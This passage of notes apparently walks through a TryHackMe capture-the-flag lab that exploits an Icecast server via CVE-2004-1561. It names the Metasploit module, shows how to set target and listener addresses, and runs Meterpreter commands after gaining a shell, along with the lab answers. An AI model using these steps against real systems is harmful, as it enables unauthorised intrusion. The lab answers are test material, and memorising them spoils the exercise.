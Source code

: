 > [!check]- What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000
> CVE-2004-1561


---
# Exploitation
## Icecast

> [!check]- After Metasploit has started, let's search for our target exploit using the command 'search icecast'. What is the full path (starting with exploit) for the exploitation module? If you are not familiar with metasploit, take a look at the [Metasploit](https://tryhackme.com/module/metasploit) module.
> exploit/windows/http/icecast_header

> [!check]- Following selecting our module, we now have to check what options we have to set. Run the command `show options`. What is the only required setting which currently is blank?
> rhosts

Set the victim IP
```shell
setg RHOSTS 10.10.x.x
```

Set the local IP (from tun0 if you a re using VPN)
```shell
setg LHOST 10.2.x.x
```

---
# Privilege Escalation
Now we have a shell
> [!check]- Woohoo! We've gained a foothold into our victim machine! What's the name of the shell we have now?
> meterpreter

```shell
getuid
```
![Pasted image 20240824220248.png|300](/img/user/attachments/Pasted%20image%2020240824220248.png)
> [!check]- What user was running that Icecast process? The commands used in this question and the next few are taken directly from the '[Metasploit](https://tryhackme.com/module/metasploit)' module.
> Dark

Gets information about the remote system, such as OS
```shell
sysinfo
```
![Pasted image 20240824220618.png|500](/img/user/attachments/Pasted%20image%2020240824220618.png)

> [!check]- What build of Windows is the system?
> 7601
